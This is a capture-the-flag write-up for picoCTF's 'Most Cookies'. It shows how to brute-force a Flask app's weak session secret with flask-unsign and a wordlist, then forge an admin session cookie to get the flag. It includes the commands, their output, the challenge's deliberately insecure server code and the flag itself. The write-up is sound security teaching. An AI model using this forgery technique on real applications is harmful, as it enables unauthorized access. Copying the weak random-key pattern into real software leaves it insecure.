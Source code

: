 # Most Cookies

## Description

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/) (view server.py reference at the end of page)

## Hint(s)

1. How secure is a flask cookie?

## Writeup 
I Started by looking at the source code

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
I didn't know much about flask cookies but this part indicated that a secret key was used to generate the cookie
```python
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```
The code was confusing at first, but analyzing it more we can see that we have to become admin in order to get the flag. How do we do that?
First i did some research on flask cookies work. They use a secret key (as we can in the source code) to encrypt the cookie. In order to be able to change the cookie we have to find what secret key was used and then we can create our own payload.
I started by decoding the cookie. At first i used base64 which worked but gave me some unreadable characters at the end and got me basically nowhere.
After doing some more research, i came accross flask-unsign and realized that its the best tool to use for this challenge. 

You can install flask-unsign using : 
```
 $ pip3 install flask-unsign[wordlist]
 ```
First, we can get the flask cookie and decode it with : 
```
$ flask-unsign --decode --server http://mercury.picoctf.net:65344/
```
Which returns:
```
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YsAYmQ.qReaqo1ZSnYrCyHkO8GWelrg2bI
{'very_auth': 'blank'}
```
Refering back to the code, we can see that to become admin we have to modify the cookie to admin, but that requires a secret key. Then we remember that in the source code, the secret key was chosen randomly from a list of words. 
flask-unsign has an option which allows you to bruteforce cookies with a worldlist in order to find the secret key, exactly what we're looking for!
I then took the words from the source code, put them in a .txt file and bruteforced the cookie using this command : 
```
$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YsAYmQ.qReaqo1ZSnYrCyHkO8GWelrg2bI" --wordlist wordlist.txt
```
We get: 
```
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attempts
'fortune'
```
And we have the secret key!
Now all we need to do is create our own cookie to get the flag.
We do this by using :
```
$ flask-unsign --sign --secret fortune --cookie "{'very_auth': 'admin'}" 
```
This returns : 
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YsAZzg.vtCG7cliX5WhpIoqQJKpXXeLSqI
```
We're pretty much finished! 
All we have to do now is go to the URL and change the session cookie to our forged one.

**note** : flask cookies are by default named "session".

And then we get the flag : **picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}**

## References  
## server.py

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```

### wordlist.txt

```
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```
